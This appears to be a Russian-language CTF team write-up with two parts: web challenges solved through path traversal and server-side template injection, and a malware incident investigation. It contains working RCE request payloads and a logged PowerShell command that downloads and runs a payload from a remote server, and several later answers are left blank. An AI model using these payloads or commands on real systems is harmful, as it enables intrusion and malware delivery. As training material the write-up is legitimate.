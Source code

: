 # Отчёт команды "The Vermillion Team" (No. 26)
## Part 1. Наступательная кибербезопасность.

### Web-10

В этом задании представлена обычная уязвимость **Path Traversal**. На бэкенде можно подгружать любые файлы.
```
GET /download?file_type=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fsecret HTTP/1.1
Host: 192.168.12.10:5001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://192.168.12.10:5001/
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{P6t9_T77v6RsA1}`


### Web-20

В этом задании пейлоад работает через Spring View Manipulation + SSTI под thymeleaf. Соответственно:
```
GET /doc/__%24%7Bnew%20java.util.Scanner%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22cat%20password.txt%22%29.getInputStream%28%29%29.next%28%29%7D__%3A%3A.x. HTTP/1.1
Host: 192.168.12.13:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Отсюда получаем наш пароль и следующим запросом получаем флаг.
```
GET /login?password=33a61c66899af2114c8f98d80ceb2857 HTTP/1.1
Host: 192.168.12.13:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{abobovichasdfas}`

### Web-30

В этом задании есть фильтр, отсеивающий запросы, начинающиеся с `/flag`. Через // обходим данную проверку. Дальше код в любом случае выполнит наш код независимо от того, содержатся в нем запрещенные символы или нет.
```
GET //flag?name={%7b+self.__init__.__globals__.__builtins__.__import__('os').popen('cat+flag.txt').read()+}} HTTP/1.1
Host: 192.168.12.11:8001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{Ht1P_sM088Lin6_88Ti}`


## Part 2. Расследование инцидента.

### Виртуальная машина на ОС "Windows 10"

#### 1. Каким образом вредоносное ПО попало на компьютер пользователя? (5 PTS)

Согласно легенде, файл был отправлен Валере незнакомцем. Можно утверждать, что ВПО попало на компьютер пользователя в результате **фишинга** (человеческого фактора).

#### 2. С какого сервера была скачана полезная нагрузка? (5 PTS)

Рассмотрим журнал логирования событий Windows. В ходе поиска по ключевому слову `http://` мы нашли следующее вхождение:
```
ProviderName=FileSystem NewProviderState=Started SequenceNumber=7 HostName=ConsoleHost HostVersion=5.1.19041.906 HostId=9da22629-af52-4b50-a1e3-c0b8ad39c1a1 HostApplication=powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); Start-Process -Verb runAs $drop EngineVersion= RunspaceId= PipelineId= CommandName= CommandType= ScriptName= CommandPath= CommandLine=
```

Cледовательно, файл был скачан с сервера `95.169.192.220`.

#### 3. С помощью какой уязвимости данное ВПО запустилось? В каком ПО? (5 PTS)

При помощи CVE на WinRAR, выполняющейся в cmd.

#### 4. Какие методы противодействия отладке использует программа? (10 PTS)

Встроенные функции (`IsDebuggerPresent()`, `CheckRemoteDebuggerPresent()`) для проверки присутствия отладчика, TLS Callbacks (`TlsAlloc()`, `TlsGetValue()`, `TlsSetValue()`).

#### 5. Какой алгоритм шифрования используется при шифровании данных? (10 PTS)

Откроем файл вируса по пути `…/AppData/Roaming/Rjomba.exe`. В нем при использовании команды `binwalk` можно обнаружить `AES S-BOX` и `INVERSE AES S-BOX`. При поиске в обычном текстовом редакторе можно натнуться на сообщения про некорректное использование Cipher Mode. Перебором всех главных режимов работы AES находим упоминание **CBC** (Cipher Block Chaining). Нетрудно обнаружить и поле с упоминанием длины шифроключа (**256** бит). Значит, при шифровании данных использовался протокол *AES-CBC-256*.

#### 6. Какой ключ шифрования используется при шифровании данных? (25 PTS)

Значение ключа шифрования хранится в памяти, следовательно, чтобы получить ключ, необходимо осуществить дамп памяти. Одним из инструментов, которые могут помочь нам с этим, является **Process Explorer**. Установим его и перебросим на виртуальную машину. Чтобы избежать антиотладки, переименуем тулзу и запустим Rjomba.exe. Сделаем дамп памяти процесса rjomba.exe. Дальше в этом дампе найдем строки, похожие на ключ (длиной 32):
```bash
strings Rjomba111.dmp | grep -x '.\{32,32\}'
```
Находим значение `amogusamogusamogusamogusamogusam`. Чтобы найти вектор инициализации, сделаем поиск по этой строке:
```bash
strings Rjomba111.dmp | grep -x '.\{16,32\}'
```
\- и найдём вектор иницилизации: `abababababababab`.

#### 7. Куда злоумышленник отсылает собранные данные? Каким образом он аутентифицируется на endpoint? (20 PTS)

В том же дампе находим вебхуки `Telegram`. Злоумышленник отсылает собранные данные именно туда, а на endpoint аутентифицируется посредством токена.

#### 8. Каково содержимое расшифрованного файла pass.txt на рабочем столе? (40 PTS)

Зная значение ключа, вектора инициализации и значение пароля, возможно однозначно расшифровать сообщение. При помощи инструмента CyberChef получаем итоговый ответ: ```sFYZ#2z9VdUR9sm`3JRz```.

### Виртуальная машина на ОС "Debian"

#### 1. Какой сервис на данном сервере уязвим? Какая версия? (20 PTS)

По пути `/opt/gitlab/` на диске расположен уязвимый **gitlab**. В файле **version-manifest.txt** указана его версия (15.2.2). Следовательно, ответом является `Gitlab v15.2.2`. 

#### 2. Какой тип уязвимости использовал злоумышленник? (20 PTS)

Под сервис Gitlab существует "authenticated RCE vulnerability" `CVE-2022-2884`, злоумышленник воспользовался именно ею. (Ссылка для ознакомления: [тут](https://github.com/m3ssap0/gitlab_rce_cve-2022-2884))

#### 3. Какие ошибки были допущены при конфигурации сервера? (20 PTS)

...


#### 4. Как злоумышленник повысил привилегии? (20 PTS)

...


#### 5. Как злоумышленник получил доступ к серверу на постоянной основе? (20 PTS)

...

#### 6. Как злоумышленник просканировал систему? (10 PTS)

...

#### 7. С помощью какого ВПО злоумышленник закрепился на сервере? (10 PTS)

...

